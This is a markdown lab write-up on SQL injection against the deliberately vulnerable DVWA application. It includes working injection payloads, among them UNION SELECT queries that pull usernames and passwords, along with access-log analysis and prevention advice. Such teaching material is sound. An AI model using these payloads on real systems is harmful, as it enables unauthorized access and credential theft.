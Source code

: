 # 💉 SQL Injection

SQL Injection allows attackers to input values that are always evaluated as true, bypassing other conditions in the SQL query. For example, an input like `' OR 1=1;` modifies the SQL query behavior, enabling unauthorized access to sensitive data or functionalities. When the web server receives these malicious inputs, the SQL query is constructed, executed, and the results are returned in the web application response.

## Security Settings:

1. **LOW:** 
   - At this level, user input is directly embedded in the SQL query, making it highly vulnerable to SQL injection attacks. For instance, if the query contains `$id` directly:
      ```bash
      $id
      ```
     ![PrintScreen1](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj1.png)
     ![PrintScreen2](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj2.png)
     
   - By injecting a condition that always evaluates as true (e.g., `' OR 1=1;`)
   ```sql
      1' or '1'='1;
      ```
    ![PrintScreen3](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj3.png)
   
   ```sql
   ' UNION SELECT user , password FROM users#
   ```
   ![PrintScreen4](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj4.png)
   

2. **MEDIUM:**
    -What we tried before does not work now:
   ![PrintScreen5](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj5.png)
   - At this level, the attacker can use `UNION SELECT` to combine results from different tables within the same query, such as extracting user passwords from the `users` table.
      ```sql
      1 or 1=1 UNION SELECT user, password FROM users#
      ```
   
   ![PrintScreen6](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj6.png)

## Log Analysis:

> **Note:** `[IP_ADDR]` is used to anonymize the IP address for privacy. It represents the IP address from which the request originated.

1. **Sample Logs:**
   ![PrintScreen7](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/log1.png)
   - `[IP_ADDR] - - [19/May/2024:12:55:11 -0400] "POST /dvwa/security.php HTTP/1.1" 302 - "http://[IP_ADDR]/dvwa/security.php" "Mozilla/5.0 ..."`
     - This line shows a POST request to `security.php`, resulting in a temporary redirect (HTTP response code 302). This redirection might be part of an authentication process where the user is directed to another page after submitting credentials.
   
   - `[IP_ADDR] - - [19/May/2024:12:55:14 -0400] "GET /dvwa/vulnerabilities/sqli/ HTTP/1.1" 200 4333 "http://[IP_ADDR]/dvwa/security.php" "Mozilla/5.0 ..."`
     - This successful GET request accesses the `sqli/` page, indicating a possible attempt to test for SQL injection.
   
   - `[IP_ADDR] - - [19/May/2024:13:01:41 -0400] "GET /dvwa/vulnerabilities/sqli/?id='%20UNION%20SELECT%20user,%20password%20FROM%20users%23&Submit=Submit HTTP/1.1" 200`
     - An attempt to retrieve usernames and passwords using `UNION SELECT`, with a successful response (HTTP 200), confirming the application is vulnerable.

## Effects of SQL Injection:

- Compromises web application integrity
- Allows unauthorized access to sensitive data, such as usernames, passwords, personal information, and financial details
- Data modification or deletion
- Unauthorized actions may be performed by the attacker within the application

## Prevention Measures:

- **Use Parameterized Queries and Prepared Statements:** Construct and execute SQL queries in a way that avoids SQL injection vulnerabilities.
- **User Input Validation and Filtering:** Sanitize and validate all user inputs.
- **Principle of Least Privilege:** Limit database access permissions for accounts used by the application.
- **Regular Auditing and Monitoring:** Routinely audit SQL queries, database activity, and monitor web traffic for signs of SQL injection attacks.
